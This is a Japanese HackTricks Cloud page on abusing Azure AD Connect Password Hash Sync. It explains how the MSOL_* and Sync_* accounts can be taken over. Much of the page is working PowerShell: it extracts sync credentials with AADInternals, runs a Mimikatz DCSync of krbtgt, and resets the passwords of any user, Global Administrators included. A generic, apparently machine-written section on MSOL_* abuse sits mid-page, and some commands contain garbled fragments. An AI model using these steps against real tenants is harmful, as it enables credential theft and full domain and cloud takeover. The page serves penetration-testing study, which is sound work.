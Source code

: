 # Az - PHS - Password Hash Sync

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェック！
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)をフォローする。
* [**HackTricks**](https://github.com/carlospolop/hacktricks)および[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のgithubリポジトリにPRを提出してハッキングトリックを共有する。

</details>
{% endhint %}

## 基本情報

[ドキュメントから:](https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/whatis-phs) **Password hash synchronization**はハイブリッドアイデンティティを実現するために使用されるサインイン方法の一つです。**Azure AD Connect**は、オンプレミスのActive DirectoryインスタンスからクラウドベースのAzure ADインスタンスにユーザーのパスワードのハッシュのハッシュを同期します。

<figure><img src="../../../../.gitbook/assets/image (173).png" alt=""><figcaption></figcaption></figure>

これは、オンプレミスのADをAzure ADと同期するために企業が使用する**最も一般的な方法**です。

すべての**ユーザー**と**パスワードハッシュのハッシュ**がオンプレミスからAzure ADに同期されます。ただし、**平文のパスワード**や**元のハッシュ**はAzure ADに送信されません。\
さらに、**組み込みの**セキュリティグループ（ドメイン管理者など）は**Azure ADに同期されません**。

**ハッシュの同期**は**2分ごと**に行われます。ただし、デフォルトでは、**パスワードの有効期限**や**アカウントの有効期限**はAzure ADに**同期されません**。したがって、**オンプレミスのパスワードが期限切れ**（変更されていない）になっているユーザーは、古いパスワードを使用して**Azureリソースにアクセス**し続けることができます。

オンプレミスのユーザーがAzureリソースにアクセスしようとすると、**認証はAzure ADで行われます**。

**PHS**は**Identity Protection**やAAD Domain Servicesなどの機能に必要です。

## ピボット

PHSが構成されると、いくつかの**特権アカウント**が自動的に**作成**されます：

* **`MSOL_<installationID>`**アカウントがオンプレミスのADに自動的に作成されます。このアカウントには**Directory Synchronization Accounts**ロールが付与されます（[ドキュメント](https://docs.microsoft.com/en-us/azure/active-directory/users-groups-roles/directory-assign-admin-roles#directory-synchronization-accounts-permissions)を参照）。これは、オンプレミスのADで**レプリケーション（DCSync）権限**を持っていることを意味します。
* **`Sync_<name of on-prem ADConnect Server>_installationID`**アカウントがAzure ADに作成されます。このアカウントは、Azure AD内の**任意のユーザーのパスワードをリセット**することができます（同期されたユーザーまたはクラウドのみのユーザー）。

前述の2つの特権アカウントのパスワードは、**Azure AD Connectがインストールされているサーバー**のSQLサーバーに**保存**されます。管理者はこれらの特権ユーザーのパスワードを平文で抽出することができます。\
データベースは`C:\Program Files\Microsoft Azure AD Sync\Data\ADSync.mdf`にあります。

テーブルの1つから構成を抽出することが可能で、1つは暗号化されています：

`SELECT private_configuration_xml, encrypted_configuration FROM mms_management_agent;`

**暗号化された構成**は**DPAPI**で暗号化されており、オンプレミスのAD内の**`MSOL_*`**ユーザーのパスワードとAzureAD内の**Sync\_\***のパスワードが含まれています。したがって、これらを侵害することで、ADおよびAzureADに対して特権昇格が可能です。

これらの資格情報がどのように保存され、復号化されるかの[完全な概要はこのトーク](https://www.youtube.com/watch?v=JEIR5oGCwdg)で確認できます。

### **Azure AD connectサーバー**の特定

**Azure AD connectがインストールされているサーバー**がドメインに参加している場合（ドキュメントで推奨されている）、次の方法で見つけることができます：
```powershell
# ActiveDirectory module
Get-ADUser -Filter "samAccountName -like 'MSOL_*'" - Properties * | select SamAccountName,Description | fl

#Azure AD module
Get-AzureADUser -All $true | ?{$_.userPrincipalName -match "Sync_"}
```
### MSOL\_\*の悪用

Azure AD Connectを使用している場合、MSOL\_\*アカウントがオンプレミスのActive Directoryに存在します。これらのアカウントは、Azure AD Connectのインストール時に作成され、Azure ADとオンプレミスのActive Directory間の同期を管理します。

### MSOL\_\*アカウントの特権

MSOL\_\*アカウントは、オンプレミスのActive Directory内で高い特権を持つことが多く、これにより攻撃者は以下のようなアクションを実行できます：

- ドメイン管理者権限の取得
- パスワードハッシュの抽出
- 他のシステムへの横移動

### MSOL\_\*アカウントの検出

MSOL\_\*アカウントを検出するには、以下のPowerShellコマンドを使用します：

```powershell
Get-ADUser -Filter {Name -like "MSOL_*"}
```

### MSOL\_\*アカウントの悪用方法

MSOL\_\*アカウントを悪用するための一般的な手法は以下の通りです：

1. MSOL\_\*アカウントの資格情報を取得
2. 取得した資格情報を使用して、オンプレミスのActive Directoryにアクセス
3. 高い特権を持つアカウントに昇格

### 防御策

MSOL\_\*アカウントの悪用を防ぐための対策は以下の通りです：

- MSOL\_\*アカウントの監視とログの分析
- 強力なパスワードポリシーの適用
- 定期的な資格情報の更新
- 最小特権の原則の適用
```powershell
# Once the Azure AD connect server is compromised you can extract credentials with the AADInternals module
Get-AADIntSyncCredentials

# Using the creds of MSOL_* account, you can run DCSync against the on-prem AD
runas /netonly /user:defeng.corp\MSOL_123123123123 cmd
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\krbtgt /domain:domain.local /dc:dc.domain.local"'
```
{% hint style="danger" %}
You can also use [**adconnectdump**](https://github.com/dirkjanm/adconnectdump) to obtain these credentials.
{% endhint %}

### Sync\_\*の悪用

**`Sync_*`**アカウントを侵害すると、任意のユーザー（Global Administratorsを含む）の**パスワードをリセット**することが可能です。
```powershell
# This command, run previously, will give us alse the creds of this account
Get-AADIntSyncCredentials

# Get access token for Sync_* account
$passwd = ConvertTo-SecureString '<password>' -AsPlainText - Force
$creds = New-Object System.Management.Automation.PSCredential ("Sync_SKIURT-JAUYEH_123123123123@domain.onmicrosoft.com", $passwd)
Get-AADIntAccessTokenForAADGraph -Credentials $creds - SaveToCache

# Get global admins
Get-AADIntGlobalAdmins

# Get the ImmutableId of an on-prem user in Azure AD (this is the Unique Identifier derived from on-prem GUID)
Get-AADIntUser -UserPrincipalName onpremadmin@domain.onmicrosoft.com | select ImmutableId

# Reset the users password
Set-AADIntUserPassword -SourceAnchor "3Uyg19ej4AHDe0+3Lkc37Y9=" -Password "JustAPass12343.%" -Verbose

# Now it's possible to access Azure AD with the new password and op-prem with the old one (password changes aren't sync)
```
クラウドユーザーの**パスワードのみを変更**することも可能です（予期しない場合でも）
```powershell
# To reset the password of cloud only user, we need their CloudAnchor that can be calculated from their cloud objectID
# The CloudAnchor is of the format USER_ObjectID.
Get-AADIntUsers | ?{$_.DirSyncEnabled -ne "True"} | select UserPrincipalName,ObjectID

# Reset password
Set-AADIntUserPassword -CloudAnchor "User_19385ed9-sb37-c398-b362-12c387b36e37" -Password "JustAPass12343.%" -Verbosewers
```
このユーザーのパスワードをダンプすることも可能です。

{% hint style="danger" %}
別のオプションとして、**Sync**ユーザーが**権限**を持つ**サービスプリンシパルに特権を割り当て**、その**サービスプリンシパルにアクセス**することでprivescを行う方法があります。
{% endhint %}

### Seamless SSO

Seamless SSOをPHSと一緒に使用することが可能で、他の悪用に対して脆弱です。以下を確認してください：

{% content-ref url="seamless-sso.md" %}
[seamless-sso.md](seamless-sso.md)
{% endcontent-ref %}

## References

* [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-phs](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-phs)
* [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)
* [https://troopers.de/downloads/troopers19/TROOPERS19\_AD\_Im\_in\_your\_cloud.pdf](https://troopers.de/downloads/troopers19/TROOPERS19\_AD\_Im\_in\_your\_cloud.pdf)
* [https://www.youtube.com/watch?v=xei8lAPitX8](https://www.youtube.com/watch?v=xei8lAPitX8)

{% hint style="success" %}
AWS Hackingを学び、練習する:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP Hackingを学び、練習する: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェック！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォローしてください。**
* **ハッキングトリックを共有するには、[**HackTricks**](https://github.com/carlospolop/hacktricks)および[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のgithubリポジトリにPRを提出してください。**

</details>
{% endhint %}
